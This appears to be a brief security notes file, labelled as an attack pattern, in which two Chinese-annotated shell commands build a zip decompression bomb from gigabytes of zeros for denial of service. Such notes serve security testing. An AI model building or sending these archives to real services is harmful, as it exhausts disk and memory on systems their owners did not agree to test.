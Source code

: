 # attack_pattern

## DoS

### zip

1. 使用root制作高压缩比文件：`dd if=/dev/zero count=$((1024*1024)) bs=4096 > big.csv`
1. 压缩：`zip -9 big.zip big.csv`
